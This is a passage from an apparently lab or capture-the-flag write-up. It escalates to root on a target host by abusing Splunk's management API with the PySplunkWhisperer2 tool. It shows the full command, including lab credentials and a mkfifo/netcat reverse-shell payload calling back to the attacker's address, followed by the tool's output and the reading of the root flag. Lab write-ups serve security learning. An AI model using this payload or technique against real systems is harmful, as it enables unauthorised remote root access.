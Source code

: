After running the command below, was possible to obtain a reverse shell under root permissions:

```bash
$ python3 ./PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" --lhost 10.10.10.10
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpcae79s9x.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.10.10:8181/
10.10.10.209 - - [04/Feb/2021 19:46:38] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

From the reverse shell obtained, was able to get the content from `/root/root.txt` without problems

```
# cat /root/root.txt
<redacted>
```

I hope it was somehow useful! 

See you in the next post! :smile:

